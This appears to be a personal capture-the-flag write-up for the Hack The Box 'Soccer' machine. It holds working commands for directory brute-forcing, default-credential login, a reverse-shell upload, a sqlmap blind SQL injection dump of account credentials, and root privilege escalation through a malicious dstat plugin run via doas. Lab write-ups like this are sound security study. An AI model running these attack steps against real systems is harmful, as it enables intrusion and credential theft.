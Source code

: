 ## Takeaway
-  Any time  trying SQLI with an integer value, it’s worth trying without a `'` as well. The `'` is used to close strings, but if the input is being handled as an integer, perhaps just an ` or 1=1– - `will work`
## Metadata
- Run` feroxbuster -u http://soccer.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt  -x "txt,html,php,asp,aspx,jsp" -t 10 -k -e -r ` to locate the hidden `tiny file manage`r application.![[Pasted image 20240311135420.png]]![[Pasted image 20240311135525.png]]
	- Default admin credential `admin:admin@123` works here.
- Enumerate as `www-data`, one can locate another virtual host `soc-player.soccer.htb`.![[Pasted image 20240311141143.png]]
	- Add `10.10.11.194 soc-player.soccer.htb` to `/etc/hosts`.
	- Run `feroxbuster -u http://soc-player.soccer.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x "txt,html,php,asp,aspx,jsp" -t 10 -k -e -r` will identify `/check` but one needs to create account and login in to access.![[Pasted image 20240311144820.png]]
	- We can see that the page is subjected to `blind SQLi` since ticket id `1234` does not actually exist.![[Pasted image 20240311144952.png]]
	- Use `sqlmap` to exfiltrate data.
		- `sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10` to dump databases.
		- `sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10` to dump tables.
		- `sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10` to dump table entries to get credential `player@player.htb:PlayerOftheMatch2022`
- Running `linpeas` as `player` will identify `doas` is installed.![[Pasted image 20240311151425.png]]
	- Run `find / -type f -name *doas*` to locate configuration.![[Pasted image 20240311151522.png]]
	- Looking at the configuration, `player` can run `dstat` as `root` without password. ![[Pasted image 20240311151559.png]]
# Exploitation
### Shell as www-data
- Login using `admin:admin@123` and upload `rev.php` to `uploads` folder.![[Pasted image 20240311135722.png]]
- Set up listener and navigate to `upload` folder and hit `direct link` button to trigger reverse shell.![[Pasted image 20240311135754.png]]
### Shell as player
- Run `ssh player@10.10.11.194` to use newly discovered credential to obtain an SSH session.
# PrivEsc
- Run following to get a root shell.
```shell
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py 
doas /usr/bin/dstat --xxx
```